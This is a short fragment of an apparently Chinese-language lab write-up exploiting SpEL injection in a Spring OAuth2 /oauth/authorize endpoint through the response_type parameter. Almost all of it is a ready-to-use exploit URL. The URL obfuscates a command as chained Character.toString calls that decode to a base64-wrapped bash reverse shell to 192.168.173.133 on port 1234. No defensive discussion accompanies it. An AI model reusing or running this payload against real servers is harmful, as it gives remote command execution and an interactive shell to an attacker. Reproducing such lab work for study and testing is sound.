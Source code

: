     

![](https://gitee.com/fuli009/images/raw/master/public/20210903083031.png)image-20210829191855899

修改后的url：

    
    
    http://192.168.173.144:8080/oauth/authorize?response_type=${poc的位置}&client_id=acme&scope=openid&redirect_uri=http://test  
    
    
    
    http://192.168.173.144:8080/oauth/authorize?response_type=${T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(98).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(104)).concat(T(java.lang.Character).toString(32)).concat(T(java.lang.Character).toString(45)).concat(T(java.lang.Character).toString(99)).concat(T(java.lang.Character).toString(32)).concat(T(java.lang.Character).toString(123)).concat(T(java.lang.Character).toString(101)).concat(T(java.lang.Character).toString(99)).concat(T(java.lang.Character).toString(104)).concat(T(java.lang.Character).toString(111)).concat(T(java.lang.Character).toString(44)).concat(T(java.lang.Character).toString(89)).concat(T(java.lang.Character).toString(109)).concat(T(java.lang.Character).toString(70)).concat(T(java.lang.Character).toString(122)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(67)).concat(T(java.lang.Character).toString(65)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(83)).concat(T(java.lang.Character).toString(65)).concat(T(java.lang.Character).toString(43)).concat(T(java.lang.Character).toString(74)).concat(T(java.lang.Character).toString(105)).concat(T(java.lang.Character).toString(65)).concat(T(java.lang.Character).toString(118)).concat(T(java.lang.Character).toString(90)).concat(T(java.lang.Character).toString(71)).concat(T(java.lang.Character).toString(86)).concat(T(java.lang.Character).toString(50)).concat(T(java.lang.Character).toString(76)).concat(T(java.lang.Character).toString(51)).concat(T(java.lang.Character).toString(82)).concat(T(java.lang.Character).toString(106)).concat(T(java.lang.Character).toString(99)).concat(T(java.lang.Character).toString(67)).concat(T(java.lang.Character).toString(56)).concat(T(java.lang.Character).toString(120)).concat(T(java.lang.Character).toString(79)).concat(T(java.lang.Character).toString(84)).concat(T(java.lang.Character).toString(73)).concat(T(java.lang.Character).toString(117)).concat(T(java.lang.Character).toString(77)).concat(T(java.lang.Character).toString(84)).concat(T(java.lang.Character).toString(89)).concat(T(java.lang.Character).toString(52)).concat(T(java.lang.Character).toString(76)).concat(T(java.lang.Character).toString(106)).concat(T(java.lang.Character).toString(69)).concat(T(java.lang.Character).toString(51)).concat(T(java.lang.Character).toString(77)).concat(T(java.lang.Character).toString(121)).concat(T(java.lang.Character).toString(52)).concat(T(java.lang.Character).toString(120)).concat(T(java.lang.Character).toString(77)).concat(T(java.lang.Character).toString(122)).concat(T(java.lang.Character).toString(77)).concat(T(java.lang.Character).toString(118)).concat(T(java.lang.Character).toString(77)).concat(T(java.lang.Character).toString(84)).concat(T(java.lang.Character).toString(73)).concat(T(java.lang.Character).toString(122)).concat(T(java.lang.Character).toString(78)).concat(T(java.lang.Character).toString(67)).concat(T(java.lang.Character).toString(65)).concat(T(java.lang.Character).toString(119)).concat(T(java.lang.Character).toString(80)).concat(T(java.lang.Character).toString(105)).concat(T(java.lang.Character).toString(89)).concat(T(java.lang.Character).toString(120)).concat(T(java.lang.Character).toString(125)).concat(T(java.lang.Character).toString(124)).concat(T(java.lang.Character).toString(123)).concat(T(java.lang.Character).toString(98)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(101)).concat(T(java.lang.Character).toString(54)).concat(T(java.lang.Character).toString(52)).concat(T(java.lang.Character).toString(44)).concat(T(java.lang.Character).toString(45)).concat(T(java.lang.Character).toString(100)).concat(T(java.lang.Character).toString(125)).concat(T(java.lang.Character).toString(124)).concat(T(java.lang.Character).toString(123)).concat(T(java.lang.Character).toString(98)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(104)).concat(T(java.lang.Character).toString(44)).concat(T(java.lang.Character).toString(45)).concat(T(java.lang.Character).toString(105)).concat(T(java.lang.Character).toString(125)))}&client_id=acme&scope=openid&redirect_uri=http://test  
    